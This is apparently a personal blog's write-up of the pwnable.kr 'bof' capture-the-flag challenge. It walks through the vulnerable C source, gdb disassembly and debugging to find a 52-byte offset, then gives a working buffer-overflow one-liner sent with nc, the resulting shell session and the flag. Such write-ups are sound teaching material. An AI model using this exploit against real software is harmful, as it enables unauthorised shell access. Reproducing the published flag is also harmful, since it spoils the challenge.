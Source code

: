 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **Toddler's Bottle - bof**

Toddler's Bottle is one of the CTF games at pwnable.kr website.  I am going to do the game is namely bof.  There are already many writeups in the internet.  However, I am going to explain what I learnt from this game.

[Website](http://pwnable.kr/play.php) (Select bof)  
[Source Code](http://pwnable.kr/bin/bof.c)  
[Binary](http://pwnable.kr/bin/bof)  

[Exploit Server](http://pwnable.kr:9000)

The source code of the bof binary is provided.  I examine the source code and found out that we are going to replace the key from ```0xdeadbeef``` to ```0xcafebabe```.  The ```overflowme``` variable is 32 characters long.  No matter what you entered in the ```overflowme``` variable, the key is not changed as it is hard coded.  It is a buffer overflow challenge.  However, we are not going to take control of the return address this time.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

Load the gdb with PEDA and check with ```checksec```.  It is confirmed that the NX is enabled with another restrictions.

```bash
gdb -q ./bof
```
```bash
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
```

Run ```disass main``` to disassemble the ```main``` function.

```bash
disass main
```
```bash
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000068a <+0>:     push   ebp
   0x0000068b <+1>:     mov    ebp,esp
   0x0000068d <+3>:     and    esp,0xfffffff0
   0x00000690 <+6>:     sub    esp,0x10
   0x00000693 <+9>:     mov    DWORD PTR [esp],0xdeadbeef
   0x0000069a <+16>:    call   0x62c <func>
   0x0000069f <+21>:    mov    eax,0x0
   0x000006a4 <+26>:    leave  
   0x000006a5 <+27>:    ret    
End of assembler dump.
gdb-peda$
```

Run ```disass func``` to disassembe the ```func``` function.

```bash
disass func
```
```bash
gdb-peda$ disass func
Dump of assembler code for function func:
   0x0000062c <+0>:     push   ebp
   0x0000062d <+1>:     mov    ebp,esp
   0x0000062f <+3>:     sub    esp,0x48
   0x00000632 <+6>:     mov    eax,gs:0x14
   0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:    xor    eax,eax
   0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:    call   0x645 <func+25>
   0x00000649 <+29>:    lea    eax,[ebp-0x2c]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   0x650 <func+36>
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:    jne    0x66b <func+63>
   0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:    call   0x665 <func+57>
   0x00000669 <+61>:    jmp    0x677 <func+75>
   0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:    call   0x673 <func+71>
   0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:    je     0x688 <func+92>
   0x00000683 <+87>:    call   0x684 <func+88>
   0x00000688 <+92>:    leave  
   0x00000689 <+93>:    ret    
End of assembler dump.
gdb-peda$
```

In the ```func``` function, the following codes that I am interested in.

```bash
0x00000649 <+29>:    lea  eax,[ebp-0x2c]
0x0000064c <+32>:    mov  DWORD PTR [esp],eax
0x0000064f <+35>:    call 0x650 <func+36>
0x00000654 <+40>:    cmp  DWORD PTR [ebp+0x8],0xcafebabe
0x0000065b <+47>:    jne  0x66b <func+63>
```

The ```eax,[ebp-0x2c]```, ```ebp-0x2c``` may be contained the value of ```overflowme``` variable and saved in eax register.

The ```DWORD PTR [ebp+0x8],0xcafebabe```, ```ebp+0x8``` may be contained the value of key, that is ```0xdeadbeef```.

I am going to set a breakpoint at ```0x0000065b <+47>```.

```bash
b *func+47
```
```bash
gdb-peda$ b *func+47
Breakpoint 1 at 0x65b
gdb-peda$ r
Starting program: /root/20181212/bof
overflow me :
helloworld
```

Then ```r``` run the program and is prompted for entering ```helloworld``` as the ```overflowme```.

```bash
[----------------------------------registers-----------------------------------]
EAX: 0xbffff30c ("helloworld")
EBX: 0x0
ECX: 0xb7fab5c0 --> 0xfbad2288
EDX: 0xb7fac89c --> 0x0
ESI: 0xb7fab000 --> 0x1d5d8c
EDI: 0x0
EBP: 0xbffff338 --> 0xbffff358 --> 0x0
ESP: 0xbffff2f0 --> 0xbffff30c ("helloworld")
EIP: 0x40065b (<func+47>:   jne    0x40066b <func+63>)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40064c <func+32>:  mov    DWORD PTR [esp],eax
   0x40064f <func+35>:  call   0xb7e3c5c0 <_IO_gets>
   0x400654 <func+40>:  cmp    DWORD PTR [ebp+0x8],0xcafebabe
=> 0x40065b <func+47>:  jne    0x40066b <func+63>
 | 0x40065d <func+49>:  mov    DWORD PTR [esp],0x40079b
 | 0x400664 <func+56>:  call   0xb7e12870 <__libc_system>
 | 0x400669 <func+61>:  jmp    0x400677 <func+75>
 | 0x40066b <func+63>:  mov    DWORD PTR [esp],0x4007a3
 |->   0x40066b <func+63>:  mov    DWORD PTR [esp],0x4007a3
       0x400672 <func+70>:  call   0xb7e3ce40 <_IO_puts>
       0x400677 <func+75>:  mov    eax,DWORD PTR [ebp-0xc]
       0x40067a <func+78>:  xor    eax,DWORD PTR gs:0x14
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
0000| 0xbffff2f0 --> 0xbffff30c ("helloworld")
0004| 0xbffff2f4 --> 0x0
0008| 0xbffff2f8 --> 0x0
0012| 0xbffff2fc --> 0xb7dd1b00
0016| 0xbffff300 --> 0x9 ('\t')
0020| 0xbffff304 --> 0xbffff578 ("/root/20181212/bof")
0024| 0xbffff308 --> 0xb7e05d09 (<__new_exitfn+9>:  add    ebx,0x1a52f7)
0028| 0xbffff30c ("helloworld")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
 
Breakpoint 1, 0x0040065b in func ()
```

After entering the ```helloworld```, I am going to examine the ```eax``` and ```ebp+0x8```.

```bash
x/x $ebp+0x8

x/s $eax
```
```bash
gdb-peda$ x/x $ebp+0x8
0xbffff340: 0xdeadbeef
gdb-peda$ x/s $eax
0xbffff30c: "helloworld"
gdb-peda$
```

The result confirmed what I suspected.  I am going to check the offset the two addresses with Python.  The offset is ```52```.

```python
root@kali:~# python
Python 2.7.15+ (default, Nov 28 2018, 16:27:22)
[GCC 8.2.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xbffff340 - 0xbffff30c
52L
>>>
```

Once get the offset, I am going to overwrite the ```0xdeadbeef``` with ```0xcafebabe``` with the exploit code.  The ```cat``` command is for the interactive with the shell.

```bash
(python -c 'print "A"*52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000
```bash
root@kali:~/20181212# (python -c 'print "A"*52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000
id
uid=1008(bof) gid=1008(bof) groups=1008(bof)
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```

The flag is :
```
daddy, I just pwned a buFFer :)
```

[![](https://img.youtube.com/vi/SKZa5eLuO90/0.jpg)](https://www.youtube.com/watch?v=w1T9B9bixjA)


|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

